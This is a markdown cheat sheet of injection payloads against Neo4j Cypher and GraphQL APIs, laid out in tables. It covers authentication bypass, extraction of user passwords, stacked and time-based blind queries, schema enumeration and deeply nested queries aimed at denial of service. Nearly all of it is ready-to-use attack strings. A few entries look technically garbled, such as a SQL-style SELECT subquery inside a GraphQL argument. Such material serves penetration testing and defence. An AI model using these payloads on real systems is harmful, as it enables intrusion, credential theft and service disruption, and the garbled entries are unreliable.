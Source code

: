 # Cypher & GraphQL Injection Cheat Sheet


---

## Cypher Injection

| Scenario                         | Payload Example                                       | Notes                                                                                  |
| -------------------------------- | ----------------------------------------------------- | -------------------------------------------------------------------------------------- |
| **Authentication Bypass**        | `username: ' OR 1=1 //`<br>`password: anything`       | Uses `OR 1=1` and `//` to skip password check.                                         |
| **Comment Out Remainder**        | `' MATCH (n) RETURN n //`                             | Inject after quote to comment out rest of original query.                              |
| **Union-Style Data Extraction**  | `' MATCH (u:User) RETURN u.username, u.password //`   | If app echoes columns, can exfiltrate user credentials.                                |
| **Stacked Queries**              | `'; CALL dbms.query('MATCH (n) RETURN n LIMIT 5') //` | In Neo4j 4.x+ you can run arbitrary Cypher via `CALL dbms.query`.                      |
| **Error-Based Info Leak**        | `id: 1) WITH 1/0 AS x RETURN x //`                    | Trigger divide-by-zero to reveal error messages (and possibly query structure).        |
| **Time-Based Blind**             | `id: 1) CALL apoc.util.sleep(5000) RETURN 'pong' //`  | Use APOC sleep to delay response when a condition is true (if APOC plugin is enabled). |
| **Label & Property Enumeration** | `' MATCH (n) RETURN labels(n), keys(n) LIMIT 5 //`    | Dynamically list node labels and property keys.                                        |

---

## GraphQL Injection

| Scenario                              | Payload Example                                                                              | Notes                                                                                     |
| ------------------------------------- | -------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------- |
| **Introspection Discovery**           | `query { __schema { types { name fields { name } } } }`                                      | Enumerate all types and their fields exposed by the API.                                  |
| **Union / Inline Fragment Injection** | `{ user(id:1) { ... on Admin { secretKey } ... on User { name } } }`                         | Test for unexpected fragments or elevated-privilege fields.                               |
| **Argument-Based Injection**          | `{ user(id:"1\" OR \"1\"=\"1") { id name } }`                                                | Classic OR-based bypass inside a quoted argument.                                         |
| **Mutation Abuse**                    | `mutation { createUser(username:"attacker", password:"pass"); __schema { types { name } } }` | If multiple operations allowed, append introspection to a mutation.                       |
| **Batching / Deep Query**             | `{ search(q:"a"){ results { ... on User{id name friends{ id name friends{ id } } } } } }`    | Craft deeply nested selections to test for depth limits or induce DoS.                    |
| **Error-Based Leak**                  | `{ user(id:1) { posts(filter:"<script>alert(1)</script>") } }`                               | If server echoes arguments in errors, injection results may appear in the error response. |
| **Time-Based Blind (Apollo)**         | `mutation { delay(ms:5000) @client }`                                                        | Some Apollo setups support client-side directives that can be abused to delay responses.  |

---

## Additional Techniques & Tools

| Technique / Tool            | Payload / Command                                                     | Notes                                                       |
| --------------------------- | --------------------------------------------------------------------- | ----------------------------------------------------------- |
| **Boolean-Based Blind**     | `id:"1\" AND substring((SELECT password FROM User LIMIT 1),1,1)='a"`  | Pivot to blind-injection when no errors are returned.       |
| **Rate- & Depth-Limiting**  | Deep query: `127.0.0.1:8080/graphql?query={a{b{c{…}}}}`               | Many GraphQL servers enforce max depth—probe to map limits. |
| **Neo4j-Browser**           | —                                                                     | Use for live Cypher injection experiments.                  |
| **GraphiQL / Insomnia**     | —                                                                     | Craft, replay, and fuzz GraphQL queries.                    |
| **Burp Suite + Extensions** | **GraphQL** plugin for automated introspection and injection testing. | Integrate into your normal Burp workflow.                   |

---